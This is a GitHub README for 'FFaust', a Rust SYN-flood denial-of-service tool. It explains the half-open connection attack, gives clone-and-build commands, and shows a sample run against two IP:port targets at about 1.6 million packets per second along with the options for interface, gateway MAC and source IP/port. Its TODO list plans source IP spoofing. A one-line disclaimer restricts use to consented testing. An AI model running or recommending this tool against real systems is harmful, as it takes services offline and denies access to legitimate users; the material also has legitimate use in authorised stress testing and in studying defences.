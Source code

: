 # MLPS "FFaust"

(Multiple Launch Packet System)

```
   ____       ________   ____                 __ 
  / __ \_  __/ __/ __/  / __/___ ___  _______/ /_
 / / / / |/_/ /_/ /_   / /_/ __ `/ / / / ___/ __/
/ /_/ />  </ __/ __/  / __/ /_/ / /_/ (__  ) /_  
\____/_/|_/_/ /_/    /_/  \__,_/\__,_/____/\__/  
```

High-performance TCP SYN flooding tool. `ffaust` manipulates packets directly on Ethernet layer and achieves up to 2.5M pps (packets per second) on a single machine.

## Disclaimer

MLPS "FFaust" is a stress testing tool and it is not to be used on targets that you do not have explicit consent to attack.

## Attack vector

A SYN flood attack is a common form of a denial of service attack in which an attacker sends a sequence of SYN requests to the target system (can be a router, firewall, Intrusion Prevention Systems (IPS), etc.) in order to consume its resources, preventing legitimate clients from establishing a regular connection. This DOS attack exhausts a server's memory & CPU and not necessarily bandwidth (which other attacks like ICMP/Ping Flooding do).

At a high level, how this works is that we craft our own TCP SYN packets and then completely flood a server with them. When we send a SYN packet, the server will respond with a SYN-ACK and allocate some memory in the kernel buffer in an attempt to set up a new connection with us (at this point the connection is "half open" which is why the SYN Flooding Attack is also known as the "Half Open Attack"). The half open connections can be seen on the server side with netstat -nt4 | grep "SYN_RECV". By sending multiple SYNs per second, we cantry to get the server to exhaust it's memory and thus make it to be unable to serve legitimate clients.

## Install

To compile from source:

```shell
# git clone https://github.com/0xffiber/ffaust.git
# cd ffaust
# cargo build --release
```

## Usage

Run the tool:

```shell
# target/release/ffaust 169.172.1.1:80 10.0.1.5:443
   ____       ________   ____                 __
  / __ \_  __/ __/ __/  / __/___ ___  _______/ /_
 / / / / |/_/ /_/ /_   / /_/ __ `/ / / / ___/ __/
/ /_/ />  </ __/ __/  / __/ /_/ / /_/ (__  ) /_
\____/_/|_/_/ /_/    /_/  \__,_/\__,_/____/\__/

Preparing config... DONE
Source:
  iface eth0
  inet 10.0.0.6
  gw 10.0.0.1
  ether 00:00:00:9a:5f:55
  dest 12:34:56:00:00:00

==> 1s sent: 1,636,753 (1,636,753 pps) traffic: 103.02 MiB (103.02 MiB/s)
==> 2s sent: 3,333,556 (1,666,778 pps) traffic: 209.82 MiB (104.91 MiB/s)
==> 3s sent: 5,012,894 (1,670,964 pps) traffic: 315.52 MiB (105.17 MiB/s)
==> 4s sent: 6,672,925 (1,668,231 pps) traffic: 420.01 MiB (105.00 MiB/s)
==> 5s sent: 8,397,134 (1,679,426 pps) traffic: 528.54 MiB (105.71 MiB/s)
```

Full list of options:

```shell
ffaust 0.1.0

USAGE:
    ffaust [OPTIONS] [TARGET]...

ARGS:
    <TARGET>...    ip:port pair to stress out

OPTIONS:
    -G, --gateway-mac <GATEWAY_MAC>    Specify gateway MAC address
    -h, --help                         Print help information
    -i, --interface <INTERFACE>        Specify network interface to use
    -s, --source-port <SOURCE_PORT>    Source port(s) for packets
    -S, --source-ip <SOURCE_IP>        Source address(es) for packets
    -V, --version                      Print version information
```

## Implementation Notes

The tool makes an attempt to identify default interface to run the attack. If the default one could not be detected, please make sure to pass interface name with arguments.

In you have multiple interfaces with external connectivity, you can specify all of them (comma-separated).

Destination MAC is resolved once before launching the attack (using ARP protocol).

Full ethernet packet for each (source -> destination) pair is generated only once. Each of the following packets is created by mutating only a few bytes in the payload (and recomputing TCP header checksum).

## TODO

The tool is under active development:

- [ ] Advanced configuration for interface(s), IP ranges, etc (actually use it)
- [ ] Support source IP spoofing (with flag)
- [ ] Run multiple threads (test if this is going to be necessary againsts single IP address)
- [ ] Settings for number of worker threads & total execution time
- [ ] Option to read config from stdin, resolve for hostnames

